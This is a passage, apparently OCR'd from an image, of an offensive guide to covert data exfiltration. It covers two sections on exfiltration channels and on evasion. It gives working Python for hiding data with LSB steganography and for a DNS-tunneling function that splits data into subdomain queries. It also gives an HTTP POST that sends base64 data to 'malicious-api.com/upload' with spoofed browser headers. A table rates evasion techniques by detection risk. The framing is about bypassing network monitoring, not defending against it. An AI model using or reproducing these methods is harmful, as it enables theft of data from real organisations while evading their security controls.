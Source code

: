 
### **3. Covert Exfiltration Channels**  
To bypass network monitoring tools, data must be transmitted through covert channels that mimic legitimate traffic.  

#### **Steganography in Images**  
- **Using `stegano`**:  
  Embed data in an image using LSB steganography:  
  ```python
  from stegano import lsb
  lsb.hide("cover_image.png", "secret_message", "output_image.png")
  secret = lsb.reveal("output_image.png")
  ```

#### **DNS Tunneling**  
- **Split Data into DNS Queries**:  
  Use `dnspython` to encode data in subdomains:  
  ```python
  import dns.resolver
  def exfiltrate_dns(data, domain):
      resolver = dns.resolver.Resolver()
      for chunk in [data[i:i+63] for i in range(0, len(data), 63)]:
          resolver.resolve(f"{chunk}.{domain}", 'A')
  ```

#### **HTTP POST Requests**  
- **Mimic Legitimate Traffic**:  
  Spoof headers and use HTTPS to exfiltrate data:  
  ```python
  import requests
  headers = {
      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
      "Content-Type": "application/json"
  }
  response = requests.post("https://malicious-api.com/upload", json={"payload": base64_data}, headers=headers)
  ```

---

### **4. Evasion and Stealth Strategies**  
To evade detection, exfiltration methods must blend with normal traffic and avoid suspicious patterns.  

| **Technique**          | **Description**                                                                 | **Detection Risk** |
|-------------------------|---------------------------------------------------------------------------------|--------------------|
| **HTTPS for HTTP POST** | Encrypts data in transit and mimics legitimate API traffic.                     | Low                |
| **Base64 Encoding**     | Obfuscates payloads to avoid signature-based detection.                         | Medium             |
| **DNS Tunneling**       | Uses subdomains to exfiltrate data in small chunks.                             | High               |
| **Steganography**       | Hides data in images or audio files.                                            | Medium             |
| **Chunked Transmission**| Splits data into small, irregular-sized packets to avoid traffic analysis.      | Low                |
